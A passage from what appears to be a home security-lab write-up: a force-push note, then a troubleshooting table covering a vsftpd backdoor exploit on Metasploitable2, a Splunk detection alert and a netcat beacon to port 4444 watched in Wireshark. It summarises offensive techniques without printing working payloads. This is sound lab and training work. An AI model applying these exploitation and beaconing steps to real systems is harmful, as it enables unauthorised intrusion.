This confirmed the file in question was empty — content that had been intentionally cleared directly on GitHub in an earlier session. Since nothing of value would be lost, the push was completed with:
```bash
git push -u origin main --force
```


*Confirmed successful push after resolving the branch name and history divergence issues.*

---

## Consolidated Troubleshooting Log

| Issue | Scenario | Root Cause | Resolution |
|---|---|---|---|
| VM IPs reset on every reboot | All | VirtualBox internal network adapters do not persist static IPs across reboots | Manually re-applied `ip addr add` / `ip link set` commands at the start of every session |
| Kali IP conflict with target | Scenario 3, general setup | Kali accidentally reassigned to `192.168.50.20` during post-reboot troubleshooting | Diagnosed via `ip addr show`, fixed with `ip addr del` + re-add |
| vsftpd backdoor trigger unreliable | Scenario 1 | Timing-sensitive exploit trigger, not documented in the original CVE writeup | Retried until successful (3 failures, 1 success) |
| Splunk account/data lost | Scenario 2 | Original Splunk trial account expired | Provisioned a new 60-day trial and rebuilt the detection query from scratch |
| Wrong Splunk sourcetype auto-detected | Scenario 2 | Splunk's auto-detection did not recognize the auth log format | Manually overrode sourcetype to `linux_secure` |
| SPL query syntax error | Scenario 2 | New query text appended to leftover text in the search bar instead of replacing it | Cleared the search bar completely before pasting |
| Alert save error ("enable at least one action") | Scenario 2 | Splunk requires a trigger action before an alert can be saved | Added a trigger action (Add to Triggered Alerts) before saving |
| Broken paste causing beacon loop to fail | Scenario 4 | Command split across lines during paste, executing `4444` as a separate command | Typed the command manually instead of pasting |
| `timeout` binary missing | Scenario 4 | Metasploitable2's Ubuntu 8.04 base does not include it | Used netcat's built-in `-w 2` flag instead |
| Listener `-k` flag not persisting | Scenario 4 | This netcat build did not fully honor the flag as documented | Manually restarted the listener between beacons; confirmed via Wireshark that the underlying traffic pattern was unaffected |
| Wireshark not confirmed running before initial test | Scenario 4 | Capture window was not explicitly verified as active before starting the beacon | Restarted the entire test from scratch with Wireshark confirmed capturing first |
| No network path from Kali to Windows host | Scenario 4 | Kali only had a labnet adapter, no host-only adapter configured | Transferred the CSV via terminal `cat` output, copy-paste into Notepad |
| Git push failed — wrong branch name | Publishing | Local repository's default branch was `master`, not `main` | `git branch -M main` before pushing |
| Git push rejected — non-fast-forward | Publishing | GitHub had a commit (empty lessons-learned.md edit) not present in local history | Verified the remote commit was empty via `git show`, then used `git push --force` |
